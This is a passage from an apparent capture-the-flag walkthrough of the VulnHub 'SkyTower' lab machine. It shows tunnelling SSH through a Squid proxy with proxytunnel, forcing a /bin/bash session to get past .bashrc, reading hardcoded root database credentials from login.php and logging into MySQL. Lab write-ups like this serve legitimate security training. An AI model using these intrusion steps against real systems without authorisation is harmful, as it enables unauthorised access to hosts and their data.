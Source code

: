 This message provides us with SSH credentials for a user named "john".

## Gaining Initial Access

### Attempting SSH Access

Attempting to SSH directly into the machine doesn't work, as we discovered earlier that port 22 is filtered. However, we can use the Squid proxy we found on port 3128 to bypass this restriction.

### Setting Up a Proxy Tunnel

We use the `proxytunnel` tool to set up a tunnel through the Squid proxy:

```bash
proxytunnel -p 192.168.56.101:3128 -d 127.0.0.1:22 -a 1234 
```

This command forwards traffic from our local port 1234 to the internal VM's port 22 (SSH) through the proxy server.

### SSH Access via Proxy

We can now SSH into the machine using the proxy tunnel:

```bash
┌──(kali㉿kali)-[~/vulnhub/skyTower]
└─$ ssh john@localhost -p 1234 /bin/bash
john@localhost's password: 
whoami
john
rm .bashrc
```

We append `/bin/bash` to force the connection to stay open and then remove `.bashrc` to prevent it from causing issues.

## Privilege Escalation

### Enumerating the System

We explore the file system and find the source code of the web application in `/var/www/html/login.php`. This file contains database credentials:

```php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

```

### Accessing the Database

Using these credentials, we can access the MySQL database:

```sql
mysql -uroot -proot

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+

```